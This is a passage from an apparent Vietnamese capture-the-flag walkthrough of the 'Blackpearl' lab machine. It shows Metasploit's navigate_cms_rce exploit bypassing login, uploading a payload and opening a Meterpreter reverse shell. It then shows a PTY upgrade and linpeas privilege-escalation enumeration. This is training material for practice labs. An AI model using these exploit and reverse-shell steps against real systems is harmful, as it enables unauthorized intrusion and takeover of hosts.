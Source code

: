 LHOST  192.168.1.6      yes       The listen address (an interface may be specified)

LPORT  4444             yes       The listen port

Exploit target:

Id  Name

--  ----

0   Automatic

msf6 exploit(multi/http/navigate_cms_rce) > set RHOSTS 192.168.1.11

RHOSTS => 192.168.1.11

msf6 exploit(multi/http/navigate_cms_rce) > set VHOST blackpearl.tcm

VHOST => blackpearl.tcm

msf6 exploit(multi/http/navigate_cms_rce) > run

[*] Started reverse TCP handler on 192.168.1.6:4444

[+] Login bypass successful

[+] Upload successful

[*] Triggering payload...

[*] Sending stage (39860 bytes) to 192.168.1.11

[*] Meterpreter session 1 opened (192.168.1.6:4444 -> 192.168.1.11:55604 ) at 2022-08-03 02:48:34 -0400

meterpreter > shell

Process 1366 created.

Channel 1 created.

whoami

www-data

python -c 'import pty;pty.spawn("/bin/bash")'

www-data@blackpearl:~/blackpearl.tcm/navigate$ sudo -l

sudo -l

bash: sudo: command not found

Không có quyền sudo, sử dụng linpeas để enum

www-data@blackpearl:~/blackpearl.tcm/navigate$ wget

www-data@blackpearl:~/blackpearl.tcm/navigate$ ./linpeas.sh

SUID - Check easy privesc, exploits and write perms

╚

strings Not Found
